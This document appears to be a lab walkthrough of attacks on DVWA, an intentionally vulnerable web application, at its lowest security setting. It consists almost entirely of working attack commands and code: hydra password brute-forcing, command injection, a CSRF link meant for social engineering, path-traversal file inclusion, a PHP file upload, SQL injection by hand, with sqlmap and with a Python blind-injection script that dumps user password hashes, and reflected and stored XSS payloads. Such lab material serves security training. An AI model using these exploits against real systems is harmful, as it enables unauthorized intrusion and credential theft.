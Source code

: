 
### Target

    https://github.com/ethicalhack3r/DVWA

    Security level: low

### Prereq

    # get user token
    $ TOKEN=$(curl -c dvwa.session -s http://192.168.56.101/DVWA/login.php | grep 'user_token' | awk -F 'value=' '{print $2}' | cut -d"'" -f2)

    # get session id
    $ PHPSESSID=$(grep PHPSESSID dvwa.session | awk -F' ' '{print $7}')

    # log in
    $ curl -L -b "PHPSESSID=${PHPSESSID};security=low" -v -d "username=admin&password=password&Login=Login&user_token=${TOKEN}" http://192.168.56.101/DVWA/login.php

### Brute Force

    $ wget https://raw.githubusercontent.com/seifreed/dirb/master/wordlists/others/best110.txt

    $ hydra -t 1 -l admin -P best110.txt -vV 192.168.56.101 http-get-form "/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:F=password incorrect:H=Cookie: PHPSESSID=${PHPSESSID};security=low"

### Command Injection

    $ curl -s -b "PHPSESSID=${PHPSESSID};security=low" -d 'ip=;uname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    

### CSRF

    # Trick victim (via social engineering means) to visit:
    http://192.168.56.101/DVWA/vulnerabilities/csrf/?password_new=pass1&password_conf=pass1&Change=Change

### File Inclusion

    $ curl -L -b "PHPSESSID=${PHPSESSID};security=low" -v http://192.168.56.101/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php

### File Upload

```
$ cat > b.php <<EOF
<?php phpinfo(); ?>
EOF

$ curl -x 127.0.0.1:8080 -L -b "PHPSESSID=${PHPSESSID};security=low" -F "MAX_FILE_SIZE=100000" -F "uploaded=@b.php;filename=b.php" -F "Upload=Upload" http://192.168.56.101/DVWA/vulnerabilities/upload/index.php

$ curl -s -b "PHPSESSID=${PHPSESSID};security=low" http://192.168.56.101/DVWA/hackable/uploads/b.php | grep Linux
```

### Sql Injection

#### Manual exploitation

    # detecting SQLi
    $ curl -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id='&Submit=Submit"

    # check if injecting into string data
    $ curl -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id='+OR+'1'%3D'1&Submit=Submit"

    # retreiving table names
    $ curl -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id='+union+select+null%2Ctable_name+FROM+information_schema.tables%23&Submit=Submit"

    # retreiving column names for table 'user'
    $ curl -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id='+union+select+null%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name='user'%23&Submit=Submit"

    # retreiving users hashes
    $ curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id='+union+select+Password%2CUser+FROM+users%23&Submit=Submit" | grep union

#### Automated exploitation

    # identify SQLi
    $ wfuzz.py -p 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" -w ~/BUILDS/wfuzz/wordlist/Injections/SQL.txt --ss error "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id=FUZZ&Submit=Submit"

    # confirm SQLi
    $ sqlmap.py --dbms=MySQL --os=Linux --batch --cookie="PHPSESSID=${PHPSESSID};security=low" --technique=U -u "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id=3&Submit=Submit" -p "id" -t ./sqlmap.log

    # exploit SQLi
    $ sqlmap.py --dbms=MySQL --os=Linux --batch http://127.0.0.1:8080 --cookie="PHPSESSID=${PHPSESSID};security=low" --technique=U -u "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id=3&Submit=Submit" -p "id" -t ./sqlmap-exp.log -s sqlmap.session --dump -T users

### Sql Injection (Blind)

Deps:

    https://stackoverflow.com/questions/296536/how-to-urlencode-data-for-curl-command

#### Manual exploitation

    # detecting (blind) SQLi
    $ curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli_blind/index.php?id=$(rawurlencode "1' and 1=1#")&Submit=Submit" | grep 'User ID' | tail -1
    $ curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli_blind/index.php?id=$(rawurlencode "1' and 1=0#")&Submit=Submit" | grep 'User ID' | tail -1

Exploitation (retreiving DBMS version):

```
$ cat > py.py << EOF
"""
example output of @@version: 5.7.16-0ubuntu0.16.04.1

first find length of the @@version string:
1' and length(@@version)=7#

iterate thru printable ASCII and retreive @@version string
1' and ascii(substring(@@version,1,1))=0x35#
"""

import requests
import string
from urllib import quote, unquote

proxies = {
    "http" : "http://127.0.0.1:8080/"
}

# initiate HTTP session
session = requests.Session()
session.cookies['security'] = 'low'
session.cookies['PHPSESSID'] = 'pjkq87qc7944tu6deo466g32q1'

u = 'http://192.168.56.101/DVWA/vulnerabilities/sqli_blind/index.php?id='

# find length of @@version string
for i in xrange(1, 30):
    payload = "1' and length(@@version)=" + str(i) + "#"
    resp = session.get(u + quote(payload) + "&Submit=Submit", proxies=proxies)

    print "{0}: {1}".format(i, resp.status_code)
    if resp.status_code == 200:
        len = i
        break

version=""

# retreive @@version string
for i in xrange(1, len + 1):
    for c in string.printable:
        payload = "1' and ascii(substring(@@version,{0},1))={1}#".format(i, hex(ord(c)))
        resp = session.get(u + quote(payload) + "&Submit=Submit", proxies=proxies)

        if resp.status_code == 200:
            print payload
            version += c

print version
EOF
```

Trigger:

    $ python py.py

#### Automated exploitation

    # detect (blind) SQLi
    $ sqlmap.py --batch --cookie="PHPSESSID=${PHPSESSID};security=low" --technique=B -u "http://192.168.56.101/DVWA/vulnerabilities/sqli_blind/index.php?id=3&Submit=Submit" -p "id" -t ./sqlmap.log

    # exploitation (retreiving DBMS version) 
    $ sqlmap.py --batch --cookie="PHPSESSID=${PHPSESSID};security=low" --technique=B -u "http://192.168.56.101/DVWA/vulnerabilities/sqli_blind/index.php?id=3&Submit=Submit" -p "id" -t ./sqlmap.log --sql-query="SELECT version();

### XSS (Reflected)

Trigger vulnerability (via browser):

    http://192.168.56.101/DVWA/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%281%29%3C%2Fscript%3E#

### XSS (Stored)

Inject payload:

    $ curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/xss_s/" --data "txtName=xxx&mtxMessage=$(rawurlencode "<script>alert(1)</script>")&btnSign=Sign+Guestbook"

### Bonus 1

    Session fixation - PHPSESSID is not regenerated after logging in
